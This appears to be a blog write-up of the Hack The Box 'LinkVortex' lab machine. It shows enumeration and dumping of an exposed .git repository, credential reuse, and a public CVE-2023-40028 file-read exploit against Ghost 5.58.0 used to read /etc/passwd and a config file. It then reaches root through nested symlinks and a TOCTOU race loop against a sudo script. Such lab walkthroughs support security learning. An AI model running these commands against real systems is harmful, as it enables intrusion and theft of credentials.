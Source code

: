```yaml
---
title: LinkVortex - Linux Easy - HTB Writeup 
description:
slug: linkvortex-htb-writeup-linux-easy
date: 2025-04-13 00:00:00+0000
image: LinkVortex.PNG
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Git
    - CVE-2023-40028
    - Symbolic links
    - Nested symlinks
    - TOCTOU

# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Exposed .git repository & CVE-2023-40028\
Root: Nested symlinks or TOCTOU race condition exploit

## Enumeration
Starting with a simple nmap scan, we can identify that ssh and a web server are running.
{{< highlight go "hl_lines=1" >}}
$ nmap -Pn -p- 10.10.11.47 -v

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
{{< /highlight >}}

## User
### Fuzzing


We discover ""BitByBit Hardware" website running on port 80 powered by Ghost CMS.
![](Bitbybit.PNG)


After adding it to our `hosts` file, we fuzz it and uncover a subdomain: `dev.linkvortex.htb`
{{< highlight go "hl_lines=1" >}}
$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://linkvortex.htb -H "host: FUZZ.linkvortex.htb" -fs 230
<...>
dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 15ms]
{{< /highlight >}}
![](devLinkVortex.PNG)

Fuzzing this subdomain reveals the presence of a ```.git``` directory.\
{{< highlight go "hl_lines=1" >}}
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb/FUZZ
<...>
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 15ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 18ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 19ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 17ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 17ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 16ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 19ms]
{{< /highlight >}}

We can then use the tool [GitHack](https://github.com/lijiejie/GitHack) to recover the original source code.

{{< highlight go "hl_lines=1" >}}
$ ./GitHack.py http://dev.linkvortex.htb/.git/
<...>
$ tree dev.linkvortex.htb 
dev.linkvortex.htb
├── Dockerfile.ghost
└── ghost
    └── core
        └── test
            └── regression
                └── api
                    └── admin
                        └── authentication.test.js

7 directories, 2 files
{{< /highlight >}}

Among the recovered files, we find ```authentication.test.js```, which contains the admin credentials:

{{< highlight go "hl_lines=1 5" >}}
$ less ghost/core/test/regression/api/admin/authentication.test.js
<...>
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
<...>
{{< /highlight >}}

We can then use this password to access the administration interface(username can be easily guessed as *admin@linkvortex.htb*) using http://linkvortex.htb/ghost/#/signin but it doesn't give us further access.

However, in ```Dockerfile.ghost```, we find the Ghost version: 5.58.0, which is vulnerable to [CVE-2023-40028](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-40028), an arbitrary file read vulnerability.
{{< highlight go "hl_lines=1" >}}
$ cat Dockerfile.ghost         
FROM ghost:5.58.0
<...>
{{< /highlight >}}

Using this [exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028), we can try it to read the `/etc/passwd` file.

{{< highlight go "hl_lines=1" >}}
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<...>
{{< /highlight >}}

What other interresting files can we read ? Well, looking back at `Dockerfile.ghost`, we find a config file path: `/var/lib/ghost/config.production.json`.

{{< highlight go "hl_lines=1" >}}
$ cat Dockerfile.ghost         
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
<...>
{{< /highlight >}}

Reading this file via the CVE reveals the credentials of the user: ```bob```.

{{< highlight go "hl_lines=1 13 14" >}}
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
<...>
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
{{< /highlight >}}

With these credentials, we canconnect via SSH the machine and retrieve the user flag.
{{< highlight go "hl_lines=1" >}}
$ ssh bob@linkvortex.htb 
bob@linkvortex:~$ pwd; ls
/home/bob
user.txt
{{< /highlight >}}

## Root
### Symlinks

Running `sudo -l`, we find that bob can execute the script ```clean_symlink.sh``` as root without a password:

{{< highlight go "hl_lines=1 8" >}}
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
{{< /highlight >}}

If we take a look at second part of the script, we see that it checks for the presence of ```etc``` or ```root``` in the symlink target path. If such terms are detected, the link is deleted.\
Otherwise, it is moved to ```/var/quarantined```, and if the environment variable `CHECK_CONTENT` is set to true, the file content is displayed.

{{< highlight go "hl_lines=1" >}}
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
{{< /highlight >}}

We can use two approaches to bypass these checks and read the `root.txt` file: nested symlinks or TOCTOU exploit.

### Method 1: nested symlinks
We create two symlinks, link1.png to link2.png and link2.png points to /root/root.txt.\
This way, link1 bypasses the keyword check since its target doesn't contain `(etc|root)`.

/home/bob/link1.png -> /home/bob/link2.png -> root.txt

{{< highlight go "hl_lines=4 7" >}}
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ ln -s /root/root.txt link2.png
bob@linkvortex:~$ ln -s $PWD/link2.png link1.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link1.png
Link found [ link1.png ] , moving it to quarantine
Content:
6<...>3
{{< /highlight >}}

### Method 2: TOCTOU race condition
The script checks if the file is a symlink using ```/usr/bin/test -L link.png```. Then, it calls ```basename``` and ```readlink``` based on that assumption.\
Between the check and the read of the symlink, we can exploit a race condition by continuously interchange the symlink target ```/tmp/random``` to ```/root/root.txt```.

In one terminal, we run a loop that flips the symlink target.\
In another terminal, we repeatedly execute the vulnerable script.

If the timing is right, the script displays the content of `root.txt`.\
This vulnerability is called TOCTOU (Time-of-Check to Time-of-use).\
Using this [article](https://brandon-t-elliott.github.io/tic-tac), we can try to access `root.txt`.

Terminal 1
{{< highlight go "hl_lines=1" >}}
bob@linkvortex:~$ timeout 5s bash -c 'while true; do ln -sf $PWD/random $PWD/link.png; ln -sf /root/root.txt $PWD/link.png; done'
ln: failed to create symbolic link '/home/bob/link.png': File exists
ln: failed to create symbolic link '/home/bob/link.png': File exists
<...>
{{< /highlight >}}

Terminal 2
{{< highlight go "hl_lines=1 4" >}}
bob@linkvortex:~$ timeout 2s bash -c 'while true; do sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png; done'
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
! Trying to read critical files, removing link [ link.png ] !
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
<...>
{{< /highlight >}}


## Resources
> [CVE-2023-40028 exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)\
> [GitHack](https://github.com/lijiejie/GitHack)\
> [CTF Writeup: picoCTF 2023 - "Tic-Tac"](https://brandon-t-elliott.github.io/tic-tac)